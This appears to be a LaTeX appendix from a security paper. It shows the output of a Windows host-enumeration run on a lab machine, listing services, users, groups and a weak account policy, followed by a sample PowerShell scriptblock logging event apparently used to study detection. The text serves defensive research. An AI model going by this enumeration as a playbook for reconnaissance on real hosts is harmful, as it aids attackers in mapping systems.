NormalUser
C:\Users\NormalUser
\Users\NormalUser
C:
C:\Users\NormalUser\AppData\Roaming
C:\Users\NormalUser\AppData\Local
WIN-H8C7LGTI40B

 SNMP community strings:


 SNMP community strings for current user:


 Installed Applications:


XAMPP
Microsoft Visual C++ 2015 x64 Minimum Runtime - 14.0.23026
7-Zip 16.04 (x64 edition)
Microsoft Visual C++ 2015 x64 Additional Runtime - 14.0.23026

 Installed Applications for current user:


 Domain Name:
0

 Contents of /etc/hosts:
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost

 Running Services:
These Windows services are started:

   Application Information
   AVCTP service
   Background Intelligent Transfer Service
   Background Tasks Infrastructure Service
   Base Filtering Engine
   BranchCache
   Certificate Propagation
   CNG Key Isolation
   COM+ Event System
   Connected Devices Platform Service
   Connected Devices Platform User Service_617e1
   Connected User Experiences and Telemetry
   CoreMessaging
   Cryptographic Services
   DCOM Server Process Launcher
   DFS Namespace
   DHCP Client
   Diagnostic Policy Service
   Distributed Link Tracking Client
   Distributed Transaction Coordinator
   DNS Client
   Druva inSync Client Service
   Group Policy Client
   IKE and AuthIP IPsec Keying Modules
   IP Helper
   Local Session Manager
   Network Connection Broker
   Network List Service
   Network Location Awareness
   Network Store Interface Service
   Plug and Play
   Power
   Print Spooler
   Remote Desktop Configuration
   Remote Desktop Services
   Remote Desktop Services UserMode Port Redirector
   Remote Procedure Call (RPC)
   RPC Endpoint Mapper
   Security Accounts Manager
   Server
   Server Infrastructure License Service
   Shell Hardware Detection
   SMB Hash Generation Service
   State Repository Service
   Storage Service
   SysMain
   System Event Notification Service
   System Events Broker
   Task Scheduler
   TCP/IP NetBIOS Helper
   Themes
   Time Broker
   Touch Keyboard and Handwriting Panel Service
   Update Orchestrator Service
   User Access Logging Service
   User Manager
   User Profile Service
   Web Account Manager
   Windows Connection Manager
   Windows Defender Antivirus Network Inspection Service
   Windows Defender Antivirus Service
   Windows Defender Firewall
   Windows Event Log
   Windows Font Cache Service
   Windows License Manager Service
   Windows Management Instrumentation
   Windows Push Notifications System Service
   Windows Push Notifications User Service_617e1
   Windows Remote Management (WS-Management)
   Windows Search
   Windows Security Service
   Windows Time
   Windows Update Medic Service
   WinHTTP Web Proxy Auto-Discovery Service
   Workstation

The command completed successfully.


 Account Policy:
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          0
Maximum password age (days):                          42
Minimum password length:                              0
Length of password history maintained:                None
Lockout threshold:                                    Never
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        SERVER
The command completed successfully.


 Local users:

User accounts for \\WIN-H8C7LGTI40B

---------------------------------------------------------
Administrator            DefaultAccount           Guest                    
NormalUser               WDAGUtilityAccount       
The command completed successfully.


 Local Groups:

Aliases for \\WIN-H8C7LGTI40B

---------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Storage Replica Administrators
*System Managed Accounts Group
*Users
The command completed successfully.


 WLAN Info:
The following command was not found: wlan show all.

\end{verbatim}
\hypertarget{output2}{\subsubsection{Single event of PowerShell scriptblock logging}}
\begin{lstlisting}
<Event xmlns='http://schemas.microsoft.com/
    win/2004/08/events/event'>
<System>
	<Provider Name='Microsoft-Windows-PowerShell'
		Guid='{a0c1853b-5c40-4b15-8766-3cf1c58f985a}'/>
	<EventID>4104</EventID>
	<Version>1</Version>
	<Level>5</Level>
	<Task>2</Task>
	<Opcode>15</Opcode>
	<Keywords>0x0</Keywords>
	<TimeCreated SystemTime='2020-11-24T23:51:
	    38.110905600Z'/>
	<EventRecordID>3678861</EventRecordID>
	<Correlation 
		ActivityID='{cd0c0d8f-c305-0000-60b6-
		    0ccd05c3d601}'/>
	<Execution ProcessID='888' ThreadID='4004'/>
	<Channel>
		Microsoft-Windows-PowerShell/Operational
	</Channel>
	<Computer>WIN-H8C7LGTI40B</Computer>
	<Security 
		UserID='S-1-5-21-3092757730-2535432651-
		    4254931961-500'
	/>
</System>
<EventData>
	<Data Name='MessageNumber'>1</Data>
	<Data Name='MessageTotal'>1</Data>
	<Data Name='ScriptBlockText'>prompt</Data>
	<Data Name='ScriptBlockId'>
		e05f3001-ea7a-42ba-9da1-44bb4f5f08ba
	</Data>
	<Data Name='Path'></Data>
</EventData>
<RenderingInfo Culture='en-US'>
	<Message>Creating Scriptblock text (1 of 1):
		prompt
		ScriptBlock ID: e05f3001-ea7a-42ba-9da1-
		    44bb4f5f08ba
		Path: 
	</Message>
	<Level>Verbose</Level>
	<Task>Execute a Remote Command</Task>
	<Opcode>On create calls</Opcode>
	<Channel>
	    Microsoft-Windows-PowerShell/Operational
	</Channel>
	<Provider></Provider>
	<Keywords></Keywords>
</RenderingInfo>
</Event>
\end{lstlisting}

\end{document}